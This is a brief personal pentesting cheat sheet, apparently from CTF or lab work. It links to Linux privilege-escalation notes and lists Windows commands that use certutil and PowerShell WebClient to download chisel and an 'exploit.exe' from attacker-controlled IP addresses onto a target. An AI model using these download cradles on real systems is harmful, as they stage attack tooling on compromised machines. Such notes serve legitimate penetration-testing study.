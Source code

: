 # Linux:
[[TCM Linux Privilege Escalation Notes]]
[[740i Linux-PrivEsc]]

------------------------------------
# Windows:

#certutil 
```shell
certutil -urlcache -split -f "http://10.10.16.7:8000/chisel_windows"
certutil -urlcache -split -f "http://10.10.14.39:8000/chisel_1.8.1_windows_amd64.exe"
```


```powershell
#Downloads file & writes to disk
powershell.exe (New-Object System.Net.WebClient).DownloadFile('http://192.168.1.163:8080/exploit.exe', 'exploit.exe')
```